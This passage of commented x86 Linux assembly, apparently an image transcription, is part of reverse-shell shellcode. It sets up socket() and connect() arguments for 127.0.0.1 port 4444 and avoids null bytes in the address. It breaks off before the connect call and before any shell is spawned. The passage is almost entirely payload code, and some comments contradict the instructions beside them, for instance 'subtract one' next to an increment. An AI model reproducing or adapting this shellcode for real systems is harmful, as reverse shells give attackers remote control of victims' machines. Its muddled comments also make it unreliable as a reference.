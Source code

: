         ;; Put the socket() args on the stack
        xor ecx, ecx
        push ecx ; Protocol INADDR_ANY Accept on any interface 0x00000000
        push ebx ; SOCK_STREAM is the type of socket 1
    
        push 0x2 ; Domain af_inet sets protocol family to ip protocol 2
    
        mov ecx, esp ; save pointer to args for the socket() call
        int 0x80 ; call sys_socket
    
        ; save the returned listening socket file descriptor
        xor edi, edi
        mov edi, eax
    
        ;; Connect on the socket
        xor eax, eax
        mov al, 0x66 ; socketcall syscall
    
        ;; Start building the sockaddr_in structure
        ;; Since the structure is laid out as:
        ;; sin_family, sin_port, sin_addr
        ;; we need to push the values onto the stack
        ;; in reverse order
        ;; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        ;; sin_addr= inet_addr("127.0.0.1) = 0x0100007f
        ;; loop back addr is 127.0.0.1
        ;; this translates to 0x0100007f
        ;; we don't want to have null bytes 0x00
        ;; so we add 0x01010101 to our address
        ;; move it into a register
        ;; and then subtract
        xor ecx, ecx
        mov ecx, 0x02010180
        sub ecx, 0x01010101
        push ecx ; inet_addr("127.0.0.1) = 0x0100007f
    
        ;; 4444 is 0x115c in little endian. Network byte order is
        ;; Big endian so we swap the byte ordering
        push word 0x5c11 ; sin_port=4444 (network byte order)
        ;; bl is sys_connect syscallnumber 0x3
        ;; prior to the next instruction
        ;; subtract one to bring it to 0x2
        ;; which is what AF_INET represents
        inc ebx
        push word bx     ; sin_family=AF_INET (0x2)
        mov ecx, esp     ; move pointer to sockaddr_in structure
    
    
        ;; In the initial code we use sizeof to derive the addrlen
        ;; If we print the results of that we get 0x10 which is 16 bytes
        push 0x10 ;addrlen=16
        push ecx  ;sockaddr_in struct pointer
        push edi  ;sockfd
        mov ecx, esp ;save pointer to connect() args
    